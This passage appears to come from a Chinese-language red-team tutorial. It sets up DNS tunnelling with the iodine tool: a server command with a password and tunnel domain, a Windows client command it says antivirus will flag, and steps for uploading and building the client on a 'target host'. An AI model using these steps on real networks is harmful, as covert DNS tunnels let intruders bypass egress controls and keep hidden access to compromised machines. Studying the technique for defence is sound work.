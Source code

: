 执行以下命令启动服务端：

```
iodined -f -c -P root@123456 172.16.10.1 dns2tcp.dnslog1.site -DD
    -f：在前台运行
    -c：禁止检查所有传入请求的客户端IP地址
    -P：指定密码
    -D：指定调试级别。-DD指第二级，D的数量随等级增加
    这里的172.16.10.1是自定义的局域网虚拟IP地址
```

![server](img/Tunnel/server.png)

服务端启动成功后，VPS上多了一块dns0的网卡，ip为我们设置的172.16.10.1

![ifconfig_server](img/Tunnel/ifconfig_server.png)

#### 3. 安装并启动客户端

**Windows系统**

如果是Windows系统，直接执行下面命令启动客户端，但是启动的过程中，会遇到杀毒软件的报毒，并且需要管理员权限执行命令才可以启动。

```
iodine.exe -f -P root@123456 dns2tcp.dnslog1.site
```

**Linux系统**

如果是Linux系统，先安装iodine。上传iodlie客户端到目标主机，解压，进入目录安装

```
cd iodine-0.7.0/
make && make install
```
